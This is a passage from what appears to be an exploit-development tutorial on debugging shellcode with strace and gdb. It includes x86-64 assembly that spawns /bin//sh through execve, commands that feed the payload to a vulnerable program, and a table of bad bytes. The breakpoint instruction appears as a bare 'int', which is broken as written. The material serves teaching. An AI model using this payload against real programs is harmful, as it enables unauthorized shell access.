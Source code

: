 First off, why would we be interested in debugging our shellcode? As mentioned earlier, shellcoding is not as simple as just writing the code you want to execute. There are multiple factors that can cause our shellcode to crash without us even knowing. By debugging our shellcode, we can ensure that we have implemented it correctly and eliminate errors before they occur.

The first and most basic way to do this is by using the `strace` command. This command traces all the syscalls that your program is making. You can use the following syntax:
```console
$ strace ./shellcode
```

You can also debug the shellcode as stdin if you have the program locally:
```console
$ cat shellcode | strace ./vulnerable
```

This allows you to see what your shellcode is actually doing. The other, more obvious way is through `gdb`. Since you have complete control over your shellcode, you can even insert breakpoints outside of GDB using the `int` instruction, like this:
```nasm
global _start
section .text
_start:
    xor rsi,rsi
    push rsi
    mov rdi,0x68732f2f6e69622f
    push rdi
    push rsp
    pop rdi
    push 59
    pop rax
    cdq
    int  ; new instruction added
    syscall
```
{: file='shellcode.s'}

In this example, we set a breakpoint just before the syscall so we can check that all our registers are set as we want. But we can also use GDB to send the shellcode, like this:
```console
$ gdb ./vulnerable
(gdb) r < shellcode
```

<br>

---

## Forbidden Smithing

There are certain bytes that can cause issues in our shellcodes, such as null bytes, new lines, spaces, etc. For example:

| **Byte** | **Method** | 
| --------- | ---------- |
| Null byte \0 (`0x00`) | strcpy |
| Newline \n (`0x0a`) | scanf gets getline fgets | 
| Carriage return \r (`0x0d`) | scanf |
| Space (`0x20`) | scanf |
| Tab \t (`0x09`) | scanf |
| DEL (`0x7f`) | protocol-specific |
